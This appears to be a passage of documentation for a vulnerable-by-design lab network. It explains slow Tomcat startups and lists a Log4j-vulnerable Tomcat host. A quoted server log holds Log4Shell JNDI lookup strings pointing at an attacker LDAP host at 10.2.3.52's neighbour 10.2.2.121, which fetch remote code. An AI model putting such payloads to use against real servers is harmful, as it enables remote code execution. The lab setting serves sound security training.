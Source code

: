 <td>The jvm's `java.security.egd` variable should be set to `/dev/urandom`,
otherwise the tomcat service can take a very long time to start. Set this by
editing `/usr/tomcat/bin/catalina.sh` and modifying the `JAVA_OPTS` vairable.
See https://jfrog.com/knowledge-base/tomcat-takes-forever-to-start-what-can-i-do/
for more details.

Tomcat sessions that carry over through a reset can cause significant delays
when the tomcat server starts. When the server starts, it attempts to download
the log4shell payload, but the server is no longer listening. This operation
appears to have a 2 minute timeout. You can see it by viewing
`/usr/tomcat/logs/localhost.log`:

```
2022-04-28 16:15:45,541 [localhost-startStop-1] DEBUG org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]- Sending application start events
2022-04-28 16:15:45,542 [localhost-startStop-1] INFO  org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]- ContextListener: contextInitialized()
2022-04-28 16:15:45,542 [localhost-startStop-1] INFO  org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]- SessionListener: contextInitialized()
2022-04-28 16:15:45,665 [localhost-startStop-1] DEBUG org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]- readObject() loading session E5B004FF35E1CBB44FA8A69AB024941D
2022-04-28 16:15:45,665 [localhost-startStop-1] DEBUG org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]-   loading attribute 'foo' with value '${jndi:ldap://10.2.2.121:29573/dn=Exploit}'
2022-04-28 16:17:56,412 [localhost-startStop-1] DEBUG org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]- readObject() loading session 0677AD75F804B1FD4E24AF7F3BFA9DD9
2022-04-28 16:17:56,412 [localhost-startStop-1] DEBUG org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]-   loading attribute 'foo' with value '${jndi:ldap://10.2.2.121:39466/dn=Exploit}'
2022-04-28 16:20:07,472 [localhost-startStop-1] DEBUG org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]- Starting filters
2022-04-28 16:20:07,472 [localhost-startStop-1] DEBUG org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]-  Starting filter 'Set Character Encoding'
2022-04-28 16:20:07,477 [localhost-startStop-1] DEBUG org.apache.catalina.core.ContainerBase.[Catalina].[localhost].[/examples]-  Starting filter 'Compression Filter'
```

Notice the 2-minute gap between the timestamps after "loading attribute 'foo'".

To resolve this, modify /usr/tomcat/conf/context.xml and uncomment the following
setting:

```
<Manager pathname="" />
```
</td>
</tr>
</tbody>
</table>

<table>
<thead>
<tr class="header">
<th><p><span id="_Toc536021486" class="anchor"></span>Nr. <strong>3-52 Log4j Tomcat</strong></p>
<p>(10.2.3.52)</p></th>
<th>(Vulnerable)</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>OS:</td>
<td><strong>Windows Server 2016 x64</strong></td>
</tr>
<tr class="even">
<td>Software:</td>
<td>Apache Tomcat 8.0.36</td>
</tr>